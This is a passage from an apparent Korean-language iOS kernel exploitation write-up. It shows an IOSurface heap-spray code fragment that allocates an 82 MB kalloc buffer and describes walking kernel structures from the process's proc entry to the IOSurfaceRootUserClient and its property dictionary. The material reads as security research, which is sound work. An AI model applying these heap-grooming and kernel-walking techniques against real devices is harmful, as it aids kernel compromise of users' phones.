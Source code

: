 ```cpp
*/
    kern_return_t ret = IOSurface_set_value(args, args_size);
    
    free(args);
    return ret;
}

...
 
    int property_index = 0;
    uint32_t huge_kalloc_key = transpose(property_index++);
    ret = IOSurface_empty_kalloc(82 MB, huge_kalloc_key);
    if (ret) {
        ERROR("Failed to allocate empty kalloc buffer (ret: 0x%x, %s)\n", ret, mach_error_string(ret));
        goto err;
    }
```

![image.png](pics/image%201.png)

IOSurface를 활용하여 적재된 데이터는 어느 주소에 위치해있는지 어떻게 확인할 수 있을까?

아래와 같이 자기 프로세스의 proc 주소를 찾은뒤에, 구조체 필드에 접근함으로써 IOSurfaceRootClient 객체 주소까지 접근이 가능하다.

![Screenshot 2025-09-10 at 12.56.12 AM.png](pics/Screenshot_2025-09-10_at_12.56.12_AM.png)

마찬가지로, `IOSurfaceRootUserClient` 객체부터 구조체 필드에 차레로 접근함으로써 
적재된 82MB 크기의 OSDictionary 객체까지 접근이 가능하다.

IOSurface.kext의 경우 - 오픈소스로 공개되있지 않기 때문에 약간의 리버싱이 필요하였다.

아래는 IOSurface의 properties(=UserspaceValueDictionary) 필드까지 접근한 장면이고,
